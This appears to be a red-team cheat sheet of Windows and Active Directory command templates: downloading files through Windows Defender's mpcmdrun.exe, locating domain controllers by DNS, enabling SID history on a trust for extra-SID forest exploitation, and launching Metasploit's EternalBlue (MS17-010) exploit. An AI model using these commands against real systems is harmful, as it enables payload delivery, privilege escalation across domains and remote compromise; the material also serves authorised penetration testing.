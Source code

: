 ## windows download file with windows defender
```
mpcmdrun.exe -DownloadFile -url <url> -path <result_file>
```

% windows, active directory, dns

## find AD IP - show domain name and dns
```
nmcli dev show <interface>
```

## nslookup AD - domain
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain_name>
```

% windows, active directory

## enable sid history
Enable history on source domain for target domain (useful for forest extra SID exploitation)
```
netdom trust <source_domain> /d:<target_domain> /enablesidhistory:yes
```



% windows, cve
## windows eternal blue - smb - ms17-010
```
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
```

= interface: eth0
